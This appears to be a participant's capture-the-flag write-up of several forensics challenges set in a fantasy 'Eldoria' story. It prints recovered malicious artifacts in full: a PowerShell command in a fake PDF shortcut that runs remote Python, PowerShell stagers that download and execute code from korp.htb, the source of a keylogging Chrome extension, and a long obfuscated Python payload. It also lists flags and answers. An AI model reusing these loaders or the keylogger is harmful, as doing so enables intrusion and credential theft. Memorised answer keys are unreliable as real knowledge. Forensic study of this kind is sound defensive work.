



## A New Hire

### Description

The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

### Thought Process

Extracting the zip file gave me a `.eml` file containing an email. Reading it, I was prompted to open a resume at `storage.microsoftcloudservices.com:[PORT]/index.php`



Opening the website gave me partial access to the CV.


Clicking "View Full Resume" directed me to a new file called `Resume.pdf.lnk`. Despite appearing to be a PDF, it had the extension of a Windows shortcut file. I downloaded the file for further inspection.


Upon inspecting the file, I spotted something suspicious:


A PowerShell command was embedded in the file, containing a base64 blob. Decoding it revealed:


```powershell
[System.Diagnostics.Process]::Start('msedge', 'http://storage.microsoftcloudservices.com:33804/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf');\\storage.microsoftcloudservices.com@33804\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe \\storage.microsoftcloudservices.com@33804\3fe1690d955e8fd2a0b282501570e1f4\configs\client.py
```

I downloaded the `client.py` file and inspected it.


I spotted another base64 blob, which decoded to reveal the flag.


Flag: `HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}`

## Thorin's Amulet

### Description

Garrick and Thorin's visit to Stonehelm took an unexpected turn when Thorin's old rival, Bron Ironfist, challenged him to a forging contest. In the end, Thorin won the contest with a beautifully engineered clockwork amulet, but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that, it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened? **Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.**

### Thought Process

I received a `.ps1` file with the following content:

```powershell
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```

I noticed a base64 blob that would be executed by this script. Decoding it yielded:


I downloaded the file and received `update.ps1` with the following content:

```powershell
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```

Continuing, I made a request to the URL with the provided header and received a file called `a541a.ps1` with the following content:

```powershell
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""
```

Decoding the hex string revealed the flag.


Flag: `HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}`

## Stealth Invasion

### Description

Selene's normally secure laptop recently fell victim to a covert attack. Unbeknownst to her, a malicious Chrome extension was stealthily installed, masquerading as a useful productivity tool. Alarmed by unusual network activity, Selene is now racing against time to trace the intrusion, remove the malicious software, and bolster her digital defenses before more damage is done.

### Questions

| # | Question | Answer |
|---|----------|--------|
| 1 | What is the PID of the Original (First) Google Chrome process? | `4080` |
| 2 | What is the only Folder on the Desktop? | `malext` |
| 3 | What is the Extension's ID? | `nnjofihdjilebhiiemfmdlpbdkbjcpae` |
| 4 | After examining the malicious extension's code, what is the log filename in which the data is stored? | `000003.log` |
| 5 | What is the URL the user navigated to? | `drive.google.com` |
| 6 | What is the password of selene@rangers.eldoria.com? | `clip-mummify-proofs` |

### Thought Process

#### First Question
I received a memory dump after extracting the zip file. I used Volatility to analyze the memory dump. The first question asks about the PID of the first Google Chrome process, so I used `windows.pslist` to check:

```bash
vol -f memdump.elf --filters "ImageFileName,chrome.exe" windows.pslist

Volatility 3 Framework 2.23.0
Progress:  100.00		PDB scanning finished
PID	PPID	ImageFileName	Offset(V)	Threads	Handles	SessionId	Wow64	CreateTime	ExitTime	File output

4080	5296	chrome.exe	0xa708c729e0c0	48	-	1	False	2025-03-13 17:01:04.000000 UTC	N/A	Disabled
2736	4080	chrome.exe	0xa708c74560c0	11	-	1	False	2025-03-13 17:01:04.000000 UTC	N/A	Disabled
5688	4080	chrome.exe	0xa708c6cf4080	18	-	1	False	2025-03-13 17:01:04.000000 UTC	N/A	Disabled
7504	4080	chrome.exe	0xa708c6b19080	24	-	1	False	2025-03-13 17:01:04.000000 UTC	N/A	Disabled
1220	4080	chrome.exe	0xa708c7514080	9	-	1	False	2025-03-13 17:01:04.000000 UTC	N/A	Disabled
4612	4080	chrome.exe	0xa708c7230080	15	-	1	False	2025-03-13 17:01:05.000000 UTC	N/A	Disabled
8036	4080	chrome.exe	0xa708caec6080	13	-	1	False	2025-03-13 17:01:08.000000 UTC	N/A	Disabled
1368	4080	chrome.exe	0xa708c6594080	14	-	1	False	2025-03-13 17:01:11.000000 UTC	N/A	Disabled
```

Based on the creation time and the fact that multiple processes are child processes of chrome.exe with PID 4080, the answer is `4080`.

#### Second Question
This question asks for the only folder on the desktop. I used the `windows.filescan` function to check what folders exist on the Desktop:

```bash
vol -f memdump.elf windows.filescan | grep -rFi "desktop\\"
...
0xa708c8d9ec30	\Users\selene\Desktop\malext\background.js
0xa708c8d9fef0	\Users\selene\Desktop\malext\manifest.json
0xa708c8da14d0	\Users\selene\Desktop\malext\rules.json
0xa708c8da1e30	\Users\selene\Desktop\malext\content-script.js
0xa708ca379980	\Users\selene\Desktop\malext\_metadata\generated_indexed_rulesets\_ruleset1
```

The answer is `malext`.

#### Third Question

In Google Chrome, extensions downloaded from the Store are typically located in `Google\Chrome\User Data\Default\Extensions`, but in this challenge, the extension wasn't there.

Dumping the extension code, I found:

background.js
```js
function addLog(s) {
    if (s.length != 1 && s !== "Enter" && !s.startsWith("PASTE"))  {
        s = `|${s}|`;
    } else if (s === "Enter" || s.startsWith("PASTE")) {
        s = s + "\r\n";
    }
    chrome.storage.local.get(["log"]).then((data) => {
        if (!data.log) {
            data.log = "";
        }
        data.log += s;
        chrome.storage.local.set({ 'log': data.log });
    });
}

chrome.runtime.onConnect.addListener((port) => {
    console.assert(port.name === "conn");
    console.log("v1.2.1");

    port.onMessage.addListener( ({ type, data }) => {
        if (type === 'key') {
            addLog(data);
        } else if (type == 'paste') {
            addLog('PASTE:' + data);
        }
    });
});

chrome.runtime.onMessage.addListener(
    function(request, sender, sendResponse) {
        if (request.check === "replace_html" && chrome.storage.local.get("replace_html")) {
            sendResponse({ url: chrome.storage.local.get('replace_html_url')});
        }
    }
);
```

content-script.js

```js
var conn = chrome.runtime.connect({ name: "conn" });
chrome.runtime.sendMessage('update');

(async () => {
    const response = await chrome.runtime.sendMessage({ check: "replace_html" });
    console.log(response)
})();

chrome.runtime.sendMessage('replace_html', (response) => {
    conn.postMessage({ "type": "check", "data": "replace_html" });
});

document.addEventListener("keydown", (event) => {
    const key = event.key;
    conn.postMessage({ "type": "key", "data": key });
    return true;
});


document.addEventListener("paste", (event) => {
    let paste = event.clipboardData.getData("text/plain");
    conn.postMessage({ "type": "paste", "data": paste });
    return true;
});
```

Analyzing the code, I identified this as a keylogger extension. The `background.js` file contains an `addLog` function that stores keystrokes in Chrome's local storage. It captures both individual keypresses and pasted content. The `content-script.js` file sets up event listeners for `keydown` and `paste` events, forwarding all captured data to the background script via Chrome's messaging API.

Based on my research, I found that extension settings and configuration are stored in `\Local Extension Settings\`. I checked and found the following:

```bash
vol -f memdump.elf windows.filescan | grep -i '\\Local Extension Settings\\' 

0xa708c8830c80  \Users\selene\AppData\Local\Google\Chrome\User Data\Default\Local Extension Settings\nnjofihdjilebhiiemfmdlpbdkbjcpae\LOG
0xa708c8dd5be0	\Users\selene\AppData\Local\Google\Chrome\User Data\Default\Local Extension Settings\nnjofihdjilebhiiemfmdlpbdkbjcpae\MANIFEST-000001
0xa708c8dda230	\Users\selene\AppData\Local\Google\Chrome\User Data\Default\Local Extension Settings\nnjofihdjilebhiiemfmdlpbdkbjcpae\CURRENTdbtmp
0xa708c8f2b500	\Users\selene\AppData\Local\Google\Chrome\User Data\Default\Local Extension Settings\nnjofihdjilebhiiemfmdlpbdkbjcpae
0xa708c8f2d760	\Users\selene\AppData\Local\Google\Chrome\User Data\Default\Local Extension Settings\nnjofihdjilebhiiemfmdlpbdkbjcpae
0xa708cab9a2c0	\Users\selene\AppData\Local\Google\Chrome\User Data\Default\Local Extension Settings\nnjofihdjilebhiiemfmdlpbdkbjcpae\LOG
0xa708caba14d0	\Users\selene\AppData\Local\Google\Chrome\User Data\Default\Local Extension Settings\nnjofihdjilebhiiemfmdlpbdkbjcpae\000003.log
```
The only folder here is `nnjofihdjilebhiiemfmdlpbdkbjcpae`, so the answer is `nnjofihdjilebhiiemfmdlpbdkbjcpae`.

#### Fourth Question

The file from the previous question answers this one.

The answer is `000003.log`.

#### Fifth Question

I dumped the log using `windows.dumpfiles` with `--virtaddr` to inspect it:


The answer is `drive.google.com`.

#### Sixth Question

Since the extension is a keylogger, the log file also revealed the password.

The answer is `clip-mummify-proofs`.

## Silent Trap

### Description

A critical incident has occurred in Tales from Eldoria, trapping thousands of players in the virtual world with no way to log out. The cause has been traced back to Malakar, a mysterious entity that launched a sophisticated attack, taking control of the developers' and system administrators' computers. With key systems compromised, the game is unable to function properly, which is why players remain trapped in Eldoria. Now, you must investigate what happened and find a way to restore the system, freeing yourself from the game before it's too late.

### Thought process


## ToolPie

### Description

In the bustling town of Eastmarsh, Garrick Stoneforge’s workshop site once stood as a pinnacle of enchanted lock and toolmaking. But dark whispers now speak of a breach by a clandestine faction, hinting that Garrick’s prized designs may have been stolen. Scattered digital remnants cling to the compromised site, awaiting those who dare unravel them. Unmask these cunning adversaries threatening the peace of Eldoria. Investigate the incident, gather evidence, and expose Malakar as the mastermind behind this attack.

### Questions

| # | Question | Answer |
|---|----------|--------|
| 1 | What is the IP address responsible for compromising the website? | `194.59.6.66` |
| 2 | What is the name of the endpoint exploited by the attacker? | `execute` |
| 3 | What is the name of the obfuscation tool used by the attacker? | `Py-Fuscate` |
| 4 | What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server? | `13.61.7.218:55155` |
| 5 | What encryption key did the attacker use to secure the data? | `5UUfizsRsP7oOCAq` |
| 6 | What is the MD5 hash of the file exfiltrated by the attacker? | `8fde053c8e79cf7e03599d559f90b321` |

### Thought process

Extracting the zip file gave me access to a network capture file.

#### First question

I began by examining the simpler protocol, HTTP.



In the third stream, I found a suspicious POST request.


The suspicious stream contained an obfuscated Python script attempting to upload. 


The answer is `194.59.6.66`.

#### Second question

The answer was also in the previous stream.


The answer is `execute`.

#### Third question

Continuing to deobfuscate the Python script:

```python
{"script":"try:\n    import marshal,lzma,gzip,bz2,binascii,zlib;exec(marshal.loads(bz2.decompress(b'BZh91AY&SY\\x8d*w\\x00\\x00\\n\\xbb\\x7f\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xfe\\xee\\xec\\xe4\\xec\\xec\\xc0?\\xd9\\xff\\xfe\\xf4\"|\\xf9`\\r\\xff\\x1a\\xb3\\x03\\xd1\\xa0\\x1e\\xa9\\x11\\x07\\xac\\x9e\\xef\\x1e\\xeez\\xf5\\xdb\\xd9J\\xde\\xce\\xa6K(\\xe7\\xd3\\xe9\\xcd\\xa9\\x93\\rS@M\\x134&\\r\\x11\\x94xF\\x11\\xa6\\x89\\xb2\\x99\\xa6\\x94\\xf0\\x1ai\\xa1\\xa6\\x9a\\x03AF\\xd1\\x1e\\x9e\\xa1\\x9a\\xa7\\x89\\xa6L\\x84\\xf5\\x1ayC\\xd44z\\x993S h\\r\\x0f)\\xe9\\x03@\\x03LG\\xa9\\xa0\\x1a\\x04DI\\xe8\\x19$\\xf4\\xc9\\xe92a\\xa3D\\xc9\\x9aL\\x11\\x81O\\'\\xa4\\x9e\\x935=M\\xa4\\xd0\\xd1\\xa6&F\\x81\\x93L\\x86\\x80\\x00\\x00\\x06\\x80\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\rM\\t4\\xd1\\x80L\\t\\x91\\x18\\xa9\\xe4\\xc6\\x94\\xd8\\xa7\\xb5OS\\xc9\\xa4=#\\xf54\\xd4\\x06j\\x07\\xa9\\xeaz\\x9a\\x1e\\xa1\\xa0z\\x86\\x83M\\x03jh\\x00\\x03A\\xa6@\\x1a\\x00\\x00\\x03\\xd4\\x00\\x1e\\xa7\\x944\\x005=\\x10\\x93\\x10\\x9b@\\x994\\xc8\\x99\\xa3J\\x1bM\\x1ajyOF\\xa6\\x98\\xcab\\x0c\\xd16\\xa0m&\\x8fH\\xd3@44\\x01\\xa0\\x00\\r\\x03@\\x004\\x19\\x00\\x00\\x00\\x004\\x1a\\x01U44\\x00\\x03@\\xd0\\x1a\\x0044\\xd0\\x06@\\x1a\\x00\\x004\\xd0\\x18\\x98\\x86@42d\\x00h\\x1ad\\x00\\x00\\x00\\x004h\\x00\\x00\\x00`\\x91$Bhh4`\\x9a\\x19\\x04\\xc3@\\xa9\\xedS\\xf4S\\xd2\\x1b\\xd4\\xda&M&\\xd2m#\\xcai\\xfa\\x8c\\x93e=@\\x1e\\x91\\xa0z\\x8cjh\\xd1\\xa6\\x80\\x00\\xd0\\x004\\x1e\\xa0\\x01\\xa0\\x1a4i\\xb54\\xd3\\x10\\x1f\\xdf\\xcb\\x98\\x99\\r\\xa1\\r\\x8c`\\xd86\\x0cd\\xe9\\xc3\\x06\\x9bm6\\xdbm\\x1b\\xf1\"\\xf0\\xd2\\xa7\\xd5p,\\x171gAcG]V\\xcfvr\\x9e\\r\\x9d=\\x13?N\\xfa\\x8bw3l`\\x0e\\x1c\\xda\\xdc\\xb0VU\\xa0\\xe7\\x8df>$\\x10\\xb5\\xf2+fu\\xd6\\xd5\\xed\\x9a\\x9c|b\\xb1\\xc4\\xd1P\\xd0\\x95\\xf8\\x10\\xc0\\xb8\\xd2\\x10\\\\ 9\\x83UF#^H\\x12\\x12\\x91\\x98\\x9c\\x1d\\x89BQ\\x8eC\\x92\\x066\\x8bDp\\x8a\\xaa\\x03e%\\xad\\xc4\\xe5o\\x8f\\x01\\xa0\\x11\\x84\\xac\\xb8H\\x01^\\xb7\\x84y\\xed\\x0cU\\xb37\\xd7[w\\xddm\\xf4\\xf9\\xdb\\xee7\\xa6\\x98\\xe2-A\\xea\\x1c\\xd6\\xbe\\xbf1\\xe2\\x03\\x89A:2\\xb0n\\x0b\\xc169\\x8a\\xab\\n\\\\\\xa4\\xa0\\xbb{ \\x11\\xa7\\x1e-\\xbc,P`F\\xad\\x08\\xe1\\x8dY\\x9b\\x02,\\x8cs#eg%\\x97\\x071\\xda\\xe8XA|>\\xa1\\xae\\xaah%\\xc4]\\x95w*4i[\\x85\\xee\\xee=\\xcf\\x935q\\x02uo\"\\xaf\\x81/\\xc0\\xca\\xbdF;\\xf6\\xef\\xaa\\x99A/ \\x91\\xef\\x0b\\xe1\\xd9\\xa4`w\\x9e\\xc6\\x88\\xf2\\xa9S\\xe3\\xa6x\\xaf|\\x0b*IE\\x02\\x8a(NL\\x00]?\\x12\\x10p=w\\xc6\\x92G\\x8a\\xd2\\xff\\x17}~y3\\xe3\\xe9f\\xf1\\xff\\xaf\\xf2\\xa5\\xb9\\xa5\\xcc\\xfd;W\\xdd\\x1e\\xcd\\x9e\\x0bD5\\x0b\\x0f\\xc6wFW\\\\\\xd5\\x8d Gh\\xc1\\n|x2\\x99&\\x8e\\\\\\xa5Ba\\x7f6!\\x10\\xe4\\xd0p\\x18\\x90\\x97k4\\x1a\\xec@\\x1b~~\\x8d\\xfe\\xee\\x96\\x07\\x8f\\xd6\\xe1SS\\xcdOv\\x8c\\x89\\xd2I\\x150\\xa5\\xdd\\xaa>E\\x07\\xdb\\xf8l\\x97V\\xa0\\x1c\\x8d\\xd9\\xa50\\x17[h\\xd1\\x02\\x08!f\\xad\\xea\\xa0\"\\x88\\xceC\\x0c\\x0fVG^\\xc0\\xea_\\x10\\xbd\\xa1m{5IL\\xbb\\xd2\\x9an\\x07\\xd9a\\x98jgIwr&&\\x06\\x0c\\x8aH\\xe73\\xdd\\xb1\\x050\\x9f\\x1f\\x1f\\xe1J\\'\\x9d\\x8cY\\xa8\\x11\\x0b\\x08\\x0fd*\\xf2\\x9d\\xc2\\x84$\\x10\\x8a\\xd9\\xc1\\xe05\\xecs\\xdeC\\x9a\\xd1\\xb7\\x85\\x0eNiJj2\\x9ag\\x12\\x94M)\\xd2\\r\\xf3\\xa8\\x84\\xc9\\xc2\\x06\\xe1\\x14\\xda\\xd1\\x1e\\x1bV\\x1a\\x0b\\xe666\\xc6~V\\x81/r\\x98\\x95\\xf2g\\xc7Mm<\\xed\\xb0\\xe9ko\\x01\\xcb4\\x88\\x17\\x84\\x8a\"J\\x9bJ\\x18\\x0ch;\\x84\\tv\\xcb\\xbaEL\\x99\\xdf\\xaa)q/t:45\\xba\\xbf\\x84V\\xf5\\xb3\\xad\\x8c\\xee\\x11\\xe2(\\x18>\\xea3\\xa9\\x98\\xa8B\\xcf\\xb5\\xdc\\xed\\xacI<\\x90\\x06\\x1d0)Y@\\x86\\x07\\x7f\\xee\\xb9\\xf5{m\\xdf\\x83Hf\\xb3T\\xd2\\xdf\\x9c\\xc6\\xab\\xac\\x13\\x99\\xcb\\xec\\xf5K\\xf2\\x80\\xce\\x9fC\\xf4w\\xeb\\x1fa\\x08\\xd8\\r\\x80<%\\x90w\\x8b\\xe8}\\x8d\\xda\\x96\\xcf)\\x1a\\xbaD.\\xa3\\xc2\\xe5E\\xe3\\xc9p\\xa8&w\\x10\\x14\\xc6$v-I\\xd9\\xbd\\xcf\\xbf\\xe1\\xce\\x19\\xcdf\\x07\\x0b\\x7f\\xd7\\xc8:\\xa6nw\\xfc=M\\\\n\\xc7\\x02\\x96\\n\\x85\".j\\xa8G}\\x04\\xef\\x1e+\\xb0)4\\x82G_\\x05\\xfe\\xbe\\x94\\xf3\\x03\\xd4*\\xe2\\xf7T\\xa8\\x97\\x97\\xc3X\\x8a\\x9a;\\x9a\\xbei\\xc9\\xad\\xd1\\xd2\\xcf\\xde4fpz\\xce\\rY\\xa5\\xa2s\\xad\\xf8(S\\xf3*\\x85\\xea$\\x14\\x18\\xb6\\x1a\\xbb\\xc5.O\\xc3\\xb7\\x89\\xeb9\\x1a4\\xd3\\xe0\\x999r\\x99\\x9a(\\x84\\xce\\x17\\x0bk\\xa59\\xd2X\\x88\\x815\\xab\\x10x\\x9f\\xb7\\xc5\\xe7_R\\xaa\\xaa\\xab\\xf2\\x9e\\xe1\\xb9\\x8aK\\x91\\xa3\\xa1\\xa7\\xc0\\x94\\x8f3\\xca\\x82\\x8azY\\xc4g\\xed\\xcf\\xa9BO:`\\xb5\\x1b2\\x12\\xbb\\x89\\x17[m\\xa2\\xe8\\xc4\\x0ctJ/-\\xa5\\xbf\\xf1\\xffq\\x7f\\xda\\x9a\\xd9\\x00\\xb2\\x0b\\x98L\\x7f\\x17\\xb4\\xc9g}\\x1e\\xfeSh \\xc3\\x98fIq\\x05]\\xb1\\x8aB\\x98\\xc7\\x94\\x03=2&\\x06v@s\\x0fX\\xb3\\xadZ\\xcf\\xac\\xf6\\xae\\xe2\\x0b\\xaa\\xe4\\x99\\xf3\\xf5<\\xd7\\x81mu\\x87\\xb5\\x97\\xd2\\xc3\\xb4p\\xb5\\xad\\xd9y\\x15\\xf2\\x06,\\xa7;\\xe2\\xe4\\xcaH\\xbf\\xd5\\x92@\\xae\\x0c\\x91\\xddD\\x9by\\xd5\\xccj\\x7f\\xa9\\x19\\xad\\xa3\\x07\\xbdI\\x84\\xa9|k/\\x0f7=ji\\x12\\xba\\xd4\\xfaI\\x8c\\xa9\\x94\\n\\x9b\\xa43\\x0e\\xa6O\\xd3\\x8d\\xf5\\x83\\x06\\xd8\\xaehhl\\x05*;\\xda\\xaa\\xd9he\\xc8\\x8f2!\\x98\\xd6-B\\xa9\\xcf\\x9a\\xb9_\\xa4\\xec\\xda\\x08<\\xe3\\r\\xeem\\x1el\\xd8\\xfc}3\\xc4\\xbal\\xe5,P\\xe4^\\xae-\\x97\\x91j0\\xec\\xc8bB\\x85\\xd1.\\xf5T\\xa4\\xf1\\x83\\x89\\xc4-\\\\\\x00\\xf0\\xbb\\x1a\\xd2\\x89K\\xb58\\x96\\xe2\\x88\\xdd<q\\r\\xbb0\\xc4Ac\\x95.v\\x94\\x08>\\xca\\x8b\\xf5\\xa1\\xaf\\x1fVH\\x16\\n\\xfe+\\x02\\x9f\\xe9\\xa7VP\\x1a\\x03m\\x01\\xab\\x0b\\xf8\\xd1&\\xacq\\xadg\\x0f\\xfc\\x98N\\x91XRQ\\x88\\xcf- 4K\\x84q\"\\xec\\xb2\\x8c\\xe6e\\x86 \\x9ff\\x10\\x83p\\xc5\\xc1C\\xf4\\x8c5\\xda\\xe5\\x82)\\xcf\\n\\xbfWZ\\xc0\\xd1\\x9b`\\xacFt\\xba\\xed\\xaf#\\xc8\\xf8\\x96\\xe9=Zd\\xa4h\\xa3d>\\xb2\\xec\\xac\\x98\\xe6%\\xca\\xb2r\\xe2\\xd7\\xb5\\x80\\x8c\\x1cb0\\xadC\\x8a\\xdb\\x1e\\x1d\\x9ek\\xf0>\\xcf\\'7=\\x9b\\x19\\xdee@\\n\\xaa\\xac\\xd2N%$\\x91]\\xa7\\x13c\\xe7\\xce\\x95\\x96\\x81Yh\\nS\\xd1\\xdc\\xb5\\xe3d{\\x13\\xc5\\xeau22\\xcc\\xec\\xe1\\x19\\xb6\\n\\x8e?\\n\\x01\\xdey\\x04t\\x02\"@\\x82\\x12J\\x88\\x86\\x1b\\x83Un\\x03Uy\\xed\\x82\\xc3\\x19\\xdd\\x86\\r\\xda\\x1a\\xde\\x7f\\x14\\x90\\xb3\\xaf?\\x05\\xd3\\xf0\\x05\\xe9\\x85\\x83\\x99m\\x8ae\\x86\\xd59Zl\\x83i\\x04u<\\x92]\\xe9\\xca\\xbc\\xf5k\\xcd\\x8e,\\xc1\\xfcU\\xc7\\x84%|>\\xfbt\\x9c\\x04\\xf0}\\xceQ|Wy\\x9eN\\xa8\\x19#\\x12\\x94\\xf1\\xfdX5`\\x19\\x0e\\x87NwC\\xa5\\x80p\\xb1\\xd9\\xc73F\\xe8\\xa5\\x9c\\x00\\xe5\\xb1)\\xd3]\\xa6\\r\\x9d\\x1a\\xdd\\xa4\\x91\\xb9z}\\x1bg\\x12\\x9e<\\nB\\x88\\x0e\\xdf:\\x1c\\t\\xc3\\xa3\\x85\\x1b\\x98y\\xec\\x0c\\x9a\\x12Pr\\xcdC\\xea1\\x7f\\x01\\xef\\xc3\\xb0\\xdd16\\xe7\\x1e\\xf7\\x1fv4\\x17\\r\\xd3\\x86\\xceE@\\xce\\x15T\\xce\\x00\\xf3@\\xd9\\r\\x05\\x19@V\\x1c\"\\x86\\xa6\\x9c&,\\x05\\xa6%\\x02n(^9\\x86\\xa65#\\xc8\\xb5]\\x88\\x8e\\xa2,1\\xc3u2\\xe0\\xa8 \\x01\\xff\"|\\xffG\\x0b6\\xbeU\\x8a\\xf7;YD\\xda\\xb4u)l\\xf6~\\'\\x0e\\x9b\\xb3/\\x98Q1\\x04\\x12JI[\\x11*\\x81\\t\\x07\\xcb\\xadw\\xc9\\xbf\\xbf\\xbe\\xbaa\\xc6\\xce\\x9e)\\x98v\\x15\\x01j\\xa15\\xbd\\xd0\\xcb.\\xe3\\xd7\\xa2`\\x15\\x9e\\x854\\xd3\\x1am\\r\\x13A\\x9a\\xa5\\x0b\\r\\x81\\r\\xb9\\xb3%)Bmr\\x12L\\r>\\x87\\x07K\\xea\\xden\\x87\\x01c6%\\xea\\xa5\\xd8\\xb54\\xc0\\xca\\xb8SBd{O\\x9c \\x88\\x86\\xee-80\\x81Vv\\x08[P\\xc221\\x9e &,t\\x11/9\\xe0\\xd0\\x1f\\x1d\\xcd\\x94\\xb9\\x95\\xc7V\\xcb\\xd6\\xf2M\\xf7\\xf4gT\\xa2\\x19\\x94\\xd9\\xfb\\x7f\\x15\\x90\\xc5\\xb2&\\x9e}\\x0cq\\xe8\\xdc(\\x1a{l\\\\\\x88\\xb8\\xab=\\x8b\\xaaCm\\xc0\\xcb\\xb5w=\\xf8\\xff\\xa3\\xdfY\\x94\\xa5\\xa5\\x9d0\\x04U\\x8al\\xb8iw\\xa3\\xb0%\\xf1 \\x03H\\x80\\xc9$v\\xe6\\x98|#DYP\\xa4\\xfe\\'\\x04\\xe0&\\x88+\\xeb\\xce:\\xa0cm,\\x1aQ\\xfdN\\x1c\\x97\\xa3\\x98\\xb5q\\x1c\\xefE\\xabEC\\xaa\\x82\\x00\\x8c\\xcb\\xee\\x8d\\xd6l\\xe5\\\\\\xca;\\xf9d\\xd4\\xa5\\xaen\\xfaW=\\x88kU9\\xfe\\x95&c\\x13\\x0cL7+5\\xe2\\xde_\\x9f\\xf6t\\x05Hn\\xe2\\xff\\x9dzi\\x9a\\x03@`u\\xea\\x98\\xb5\\x8e\\xd9\\xa3W\\x85\\x96O\\x85\\x9bf\\xc1\\xb6\\xa4x\\xa2/=\\x0f\\xa6T\\xde\\xac\\xc6\\x84\\\\\\xa5q \\x8eZ\\xd5p*-qC%\\xec\\x85aH\\x90>\\xc1\\x97%B@\\x12B\"u\\xd5R\\x0f\\x10`&\\x9ai\\x1cl*F\\xefOr\\xaee\\xaf\\xa9\\x88q\\xa2k93\\xe6\\xf6\\xf5\\xa8n\\xd0\\xf42\\xe5<\\xf7}\\xad\\xdc\\xd4)L\\x11\\x97\\xd4\\x92\\x11E\\xe1\\xa0\\xa4\\xe4{\\x9a\\xe6T\\xda \\xee\\x83\\xb7\\xce\\x17\\xb0\\xb3\\x0c\\x11\\x8f\\xc1t\\x0c\\xb5\\x87\\x9e\\xbb\\x0f\\x0fql\\xe8T\\xc5\\x02+E\\xdd\\xbcQ\\x92\\xb8\\xb8\\xc8*,(K\\tUk\\x16\\t\\x86\\xb9@\\'\\x04\\xc1l&\\xcf)\\x1f\\x14V\\x0b\\x80\\xd2\\r\\xab\\xec\\x07) \\x0c\\x0f\\x80\\xee\\x16\\x14\\xf9\\x9c\\xcbKE\\xed`;5\\xa9\\xc2\\x105X[\\x87\\xd6j\\x95\\x18\\xcaY\\x99\\xba\\xe6\\xe8\\x04q\\x8344\\xceW\\x00\\x05\\xc4\\x15\\xfb\\x82\\xea9\\xfcJ\\xa3L\\x8e\\n\\xc1\\xb4\\xb3sY\\x84`\\x98\\x99\\xccy\\x0f{\\x02P\\x8e\\n\\xb3\\xe5\\xeclN\\xa8\\xb5]\\x84!I\\x80\\xa4\\x8at&\\xe4eu\\xba\\x15T\\x1fv\\x90fx\\x81P9\\x1a\\xf5G\\xa9\\xa2\\x9c\\xed\\xc4W\\xa0\\xbb\\xa5j\\x1e\\x1b\\xd9%J\\xb3z1I`\\x19s\\xd9\\xb0\\\\\\xca\\xfdd\\xd54!\\x829\\xc2|\\x0c\\xed\\xdb\\x0e\\xde:\\xcb%l-\\xf6\\x8f\\xef\\xde\\xe2\\xa5h\\xb6e\\xc5\\xc7!\\xc6 